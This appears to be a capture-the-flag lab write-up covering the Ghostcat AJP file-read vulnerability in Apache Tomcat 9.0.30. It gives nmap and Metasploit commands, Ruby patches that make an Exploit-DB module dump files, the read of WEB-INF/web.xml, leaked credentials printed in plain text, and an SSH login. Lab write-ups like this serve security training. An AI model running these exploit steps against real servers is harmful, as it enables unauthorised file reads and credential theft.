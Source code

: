 ### Find the services exposed by the machine
```BASH
nmap -sV -p- 10.10.119.52
```
![image](https://github.com/user-attachments/assets/843c0030-20f7-4aa6-9408-5b3c25261a22)

TCP port 8009 is open and running the Apache JServ Protocol (AJP) 1.3, while port 8080 is serving an Apache Tomcat 9.0.30 instance. This version of Apache Tomcat (9.0.30), when combined with an exposed AJP port is vulnerable to the [Ghostcat vulnerability - CVE-2020-193](https://www.exploit-db.com/exploits/49039)

<span style="line-height:0.5;">&nbsp;</span>

Exploit run a Metasploit module or code that depends on the Metasploit Framework, so we have to run it in Metasploit. Before moving file to directory I had to make some fixes to work. 

Copy code to new file, for exmaple `exploit.rb`. After that create new directory for custom module:
```BASH
mkdir -p ~/.msf4/modules/exploits/multi/http
```
Move  `exploit.rb` to new directory:
```BASH
mv exploit.rb ~/.msf4/modules/exploits/multi/http/ghostcat.rb
```
Run msfconsole
```BASH
msfconsole
```
Reload all scripts
```BASH
reload_all
```
Use custom module from exploit db
```BASH
use exploit/multi/http/ghostcat
```
Set parameters and run
```BASH
set RHOSTS 10.10.149.201
set RPORT 8009
set FILENAME /WEB-INF/web.xml
run
```

That means the exploit successfully read the file from the remote Tomcat server via the AJP port:
![image](https://github.com/user-attachments/assets/ed1c8cf8-ae01-4e7a-af22-9cce1496c9cf)

This exploit successfully makes the AJP request, but it does not print the actual response body. Go back to directory where script sits and make few changes:
Replace this:
```RUBY
print "#{buf[idx..(idx+len)]}"
```
With:
```RUBY
content = buf[idx...(idx+len)]
print_status("File contents:\n")
print_line(content)
```
![image](https://github.com/user-attachments/assets/8bfb432d-af72-4b74-8bb0-4b29f97ef7f2)
Server responded with:
```BASH
500 Internal Server Error
Message: The requested resource [index] is not available
```
This error comes from this line in custom module.
```RUBY
{"req_attribute" => ["javax.servlet.include.request_uri", "index"]},
```
Go back to directory where script sits and make some more changes:
Replace this:
```RUBY
attributes = [
    {"req_attribute" => ["javax.servlet.include.request_uri", "index"]},
    {"req_attribute" => ["javax.servlet.include.path_info" , target_file]},
    {"req_attribute" => ["javax.servlet.include.servlet_path" , "/"]}
]
```
With this:
```RUBY
attributes = [
    {"req_attribute" => ["javax.servlet.include.request_uri", "/"]},
    {"req_attribute" => ["javax.servlet.include.path_info" , target_file]},
    {"req_attribute" => ["javax.servlet.include.servlet_path" , "/"]}
]
```

Go back to msfconsole. Set parameters and run
```BASH
set RHOSTS 10.10.149.201
set RPORT 8009
set FILENAME /WEB-INF/web.xml
run
```
From the response you can see that ceredentails are `skyfuck:8730281lkjlkjdqlksalks`
![image](https://github.com/user-attachments/assets/9d9d8391-1e8e-4079-96d3-beb9665c44c7)
![image](https://github.com/user-attachments/assets/1ee42b3a-bb7d-4f8a-9639-c016b6204ade)

SSH to skyfuck account.
```BASH
ssh skyfuck@10.10.149.201
```
![image](https://github.com/user-attachments/assets/b3d3f0ca-4b05-4925-bd46-1ca9a8458e55)




